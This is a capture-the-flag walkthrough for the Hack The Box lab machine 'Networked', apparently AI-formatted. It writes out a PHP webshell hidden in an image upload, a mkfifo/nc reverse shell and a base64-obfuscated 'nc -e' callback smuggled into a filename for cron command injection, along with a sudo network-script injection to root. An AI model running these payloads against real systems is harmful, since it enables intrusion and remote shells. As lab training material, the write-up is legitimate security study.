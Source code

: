 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)](Easy)
- **Vector**: Web Upload → Cron Command Injection → Network Script Abuse

---

## 🔍 Recon

### Nmap

```bash
nmap -p- --min-rate 10000 -oA networked-alltcp 10.10.10.146
```

```bash
nmap -p 80,22,443 -sC -sV -oA networked-tcpscripts 10.10.10.146
```

- **Ports open**:
  - [22](SSH) → OpenSSH 7.4
  - [80](HTTP) → Apache 2.4.6 (PHP 5.4.16)
  - 443 → Closed

---

## 🌐 Web Enumeration

### Gobuster / Dirsearch

```bash
dirsearch -u http://10.10.10.146
```

Found:
- `/upload.php`
- `/uploads/`
- `/backup/`
- `/index.php`
- `/backup/backup.tar` → Contains source code

---

## 🔬 Source Code Analysis (from `backup.tar`)

### Key Points from `upload.php` & `lib.php`:
- Only allows `.jpg`, `.png`, `.gif`, `.jpeg`
- Uses `check_file_type()` to validate MIME
- Uses `getnameUpload()` to extract extension after first `.`
- The server treats `something.php.png` as executable PHP due to Apache misconfig:

```apacheconf
AddHandler php5-script .php
```

---

## 💥 Exploitation: Webshell as Apache

### 🐚 Create Malicious File

Download Image
Named the Image as shell.png

#### Append cmd to image
```bash
echo "<?php system(\$_GET['cmd']); ?>" >> shell.php.png
```

### 🐱 Upload Webshell

Go to:
```
http://10.10.10.146/upload.php
```

### 🐚 Reverse Shell Payload

Start listener:
```bash
nc -lnvp 6969
```

Trigger reverse shell:
```bash
http://10.10.10.146/uploads/eye.php.jpeg?cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.13 6969 >/tmp/f
```

Shell as:
```bash
id
uid=48(apache) gid=48(apache)
```

---

## 🔼 PrivEsc: Apache → Guly

### 🧹 Exploit `check_attack.php` via Cron

File:
```php
exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
```

Exploit with a filename:
```bash
touch '/var/www/html/uploads/a; echo bmMgLWUgL2Jpbi9iYXNoIDEwLjEwLjE0LjEzIDU4NTgK | base64 -d | sh; b'
```

(Decoded: `nc -e /bin/bash 10.10.14.13 5858`)

### 🧠 Wait for Cron

Listener:
```bash
nc -lnvp 443
```

Shell as:
```bash
id
uid=1000(guly) gid=1000(guly)
```

✅ Grab `user.txt`

---

## 🔼 PrivEsc: Guly → Root

### 🔧 Sudo Permission

```bash
sudo -l
```

Allowed:
```
/usr/local/sbin/changename.sh
```

Script writes a config and calls `ifup`:

```bash
echo "interface PROXY_METHOD:" ; read x
echo $x >> /etc/sysconfig/network-scripts/ifcfg-guly
```

If input includes a space, code after it is executed.

### 💥 Exploit

```bash
sudo /usr/local/sbin/changename.sh
```

Inputs:
```
NAME: test
PROXY_METHOD: a /bin/bash
BROWSER_ONLY: b
BOOTPROTO: c
```

`n bash` works for all also

Root shell:
```bash
id
uid=0(root) gid=0(root)
```

✅ Grab `root.txt`

---

## 🔎 Beyond Root: Apache Misconfig

```apacheconf
AddHandler php5-script .php
```

🛑 This causes `.php.*` to be interpreted as PHP.

---

Let me know if you want a downloadable version (PDF/Markdown) or want this organized for a Notion/Obsidian vault ⚡